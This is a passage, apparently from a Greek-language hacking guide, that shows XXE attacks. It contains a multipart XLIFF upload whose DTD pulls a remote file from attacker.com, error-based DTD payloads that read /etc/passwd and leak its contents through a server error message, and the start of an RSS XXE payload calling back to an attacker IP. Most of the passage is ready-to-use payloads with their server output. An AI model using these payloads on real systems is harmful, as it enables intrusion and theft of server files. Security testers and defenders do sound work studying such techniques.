 Εξαγωγή Δεδομένων Εκτός Ζώνης
Για να εξαγάγουμε δεδομένα, στέλνεται ένας τροποποιημένος αίτημα:
```
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
Αυτή η προσέγγιση αποκαλύπτει ότι ο User Agent υποδεικνύει τη χρήση του Java 1.8. Ένα περιορισμένο σημείο αυτής της έκδοσης της Java είναι η αδυναμία ανάκτησης αρχείων που περιέχουν χαρακτήρα νέας γραμμής, όπως το /etc/passwd, χρησιμοποιώντας την τεχνική Out of Band.

Εξαγωγή Δεδομένων με Βάση το Σφάλμα
Για να ξεπεραστεί αυτός ο περιορισμός, χρησιμοποιείται μια προσέγγιση βασισμένη σε σφάλματα. Το αρχείο DTD έχει την ακόλουθη δομή για να προκαλέσει ένα σφάλμα που περιλαμβάνει δεδομένα από ένα στοχευμένο αρχείο:
```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```
Ο διακομιστής απαντά με ένα σφάλμα, αναφέροντας σημαντικά το μη υπαρκτό αρχείο, υποδεικνύοντας ότι ο διακομιστής προσπαθεί να αποκτήσει πρόσβαση στο συγκεκριμένο αρχείο:
```javascript
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```
Για να συμπεριληφθεί το περιεχόμενο του αρχείου στο μήνυμα σφάλματος, το αρχείο DTD προσαρμόζεται:
```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```
Αυτή η τροποποίηση οδηγεί στην επιτυχή εξαγωγή του περιεχομένου του αρχείου, καθώς αυτό αντανακλάται στην έξοδο σφάλματος που αποστέλλεται μέσω HTTP. Αυτό υποδηλώνει μια επιτυχημένη επίθεση XXE (XML External Entity), εκμεταλλευόμενη τεχνικές Out of Band και Error-Based για την εξαγωγή ευαίσθητων πληροφοριών.


## RSS - XEE

Έγκυρο XML με μορφή RSS για εκμετάλλευση ευπάθειας XXE.

### Επιστροφή ανταπόκρισης

Απλή αίτηση HTTP προς τον διακομιστή των επιτιθέμενων.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
```